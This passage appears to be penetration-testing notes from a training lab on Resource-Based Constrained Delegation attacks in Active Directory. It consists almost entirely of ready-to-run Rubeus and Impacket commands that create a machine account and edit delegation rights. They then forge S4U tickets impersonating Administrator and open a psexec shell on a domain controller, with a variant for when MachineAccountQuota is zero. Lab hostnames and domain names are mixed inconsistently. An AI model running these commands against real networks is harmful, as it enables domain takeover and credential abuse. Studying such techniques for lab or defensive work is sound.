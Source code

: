 #### Get hash of our account, then get ticket.&#x20;

```powershell
# Get hash of computer account
.\Rubeus.exe hash /password:pass123 /user:ZEN$ /domain:ZENCORP.local

# Get TGS 
.\Rubeus.exe s4u /user:ZENPC$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.zencorp.local /ptt

# Get access
ls \\dc01.inlanefreight.local\c$
```

### <mark style="color:yellow;">RBCD From Linux</mark>

Create computer account

```bash
addcomputer.py -computer-name 'ZENPC$' -computer-pass pass@123 -dc-ip 10.129.205.35 zencorp.local/john.doe
```

Add account to targeted computer's trust list

```bash
rbcd.py -dc-ip 10.129.205.35 -t DC01 -f HACKTHEBOX zencorp\\john.doe:passwd@123
```

Request TGT, then S4U2Self to get TGS, adn then S42UProxy for valid TGS for specific SPN

```bash
getST.py -spn cifs/DC01.zencorp.local -impersonate Administrator -dc-ip 10.129.205.35 zencorp.local/ZENPC:pass@123
```

Use ticket to pwn

```bash
KRB5CCNAME=Administrator@cifs_DC01.inlanefreight.local@ZENCORP.LOCAL.ccache psexec.py -k -no-pass dc01.zencorp.local
```

### <mark style="color:yellow;">RBCD When MachineAccountQuota Is Set to 0</mark>

If unable to create a computer account, or if account has no SPN set we can still perfor the attack [https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html).

Get TGT using account NT hash

```bash
# Convert to NT
pypykatz crypto nt 'B3thR!ch@rd$'

# Get TGT
getTGT.py ZENCORP.LOCAL/john.doe -hashes :de3a12633d7ded97bb47cd6641b1a392 -dc-ip 10.129.205.35
```
